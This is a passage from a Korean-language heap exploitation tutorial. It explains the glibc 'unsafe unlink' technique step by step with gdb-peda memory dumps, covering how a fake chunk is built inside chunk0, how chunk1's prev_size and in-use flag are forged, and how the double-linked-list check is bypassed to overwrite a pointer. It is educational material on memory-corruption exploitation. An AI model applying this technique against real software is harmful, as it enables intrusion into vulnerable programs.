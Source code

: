 * chunk0 영역에 Fake Chunk를 만들어준다.

```
gdb-peda$ x/24gx 0x603000
0x603000:	0x0000000000000000  0x0000000000000091 <- chunk0 

0x603010:	0x0000000000000000  0x0000000000000000 <- Fake Chunk
0x603020:	0x0000000000602058  0x0000000000000000
```

```
We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.
We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.
It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly
If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: 0x80
We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.
You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344
```

* chunk1의 prev_size를 0x90 - 0x10로 변조하면 Fake Chunk를 가리키게 된다.  
* previous_in_use flag를 변조하여 chunk0을 Freed 영역으로 만들었다.

```
gdb-peda$ x/24gx 0x603000
0x603000:	0x0000000000000000 <- chunk0     0x0000000000000091
0x603010:	0x0000000000000000 <- Fake Chunk 0x0000000000000000 
0x603020:	0x0000000000602058               0x0000000000602060
0x603030:	0x0000000000000000               0x0000000000000000
0x603040:	0x0000000000000000               0x0000000000000000
0x603050:	0x0000000000000000               0x0000000000000000
0x603060:	0x0000000000000000               0x0000000000000000
0x603070:	0x0000000000000000               0x0000000000000000
0x603080:	0x0000000000000000               0x0000000000000000
0x603090:	0x0000000000000080 <- prev_size  0x0000000000000090 <- previous_in_use

gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x90                 Freed                0x0               0x0
0x603090            0x80                0x90                 Used                None              None
```

* 다음 코드로 인해 FD->bk와 BK->fd는 둘 다 chunk0_ptr을 가리키게 되어 mitigation bypass가 가능하다.  
* BK(0x602060)->fd(0x602070) = FD 에 의해 0x602058로 overwrite 된다.

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);
else {
    FD->bk = BK; 
    BK->fd = FD;  <- 
    ...
}
```
